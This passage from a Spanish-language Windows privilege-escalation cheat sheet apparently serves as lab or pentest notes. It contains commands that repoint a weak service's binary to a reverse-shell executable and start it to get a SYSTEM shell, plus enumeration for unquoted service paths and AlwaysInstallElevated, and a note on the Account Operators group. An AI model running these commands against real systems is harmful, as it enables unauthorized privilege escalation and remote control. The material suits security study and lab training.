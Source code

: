 ```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

Inicie un oyente en Kali y luego inicie el servicio para generar un shell inverso que se ejecute con privilegios de SISTEMA:

```
net start daclsvc
```

----

## Unquoted Service Path

| argumento | descripción                                                      |
|---------  |------------------------------------------------------------------|
| findstr   | busca cadenas en los archivos                                    |
| /i        | Especifica que la búsqueda no distingue mayúsculas de minúsculas |
| /v        | Solo imprime líneas que no contienen una correspondencia         |

```
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

**sc**: Programa de línea de comandos usado para comunicarse con el Administrador de control de servicios y con los servicios.  
**qc**: Consulta la información de configuración de un servicio.

```
sc qc <service>
```

----

## AlwaysInstallElevated

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

----

## Grupos y permisos

### Accoutn operators

Otorga privilegios limitados de creación de cuentas a un usuario. Básicamente, esto puede crear y administrar usuarios y grupos en el dominio, incluida su propia membresía y la del grupo de Operadores de servidor.

[https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators)
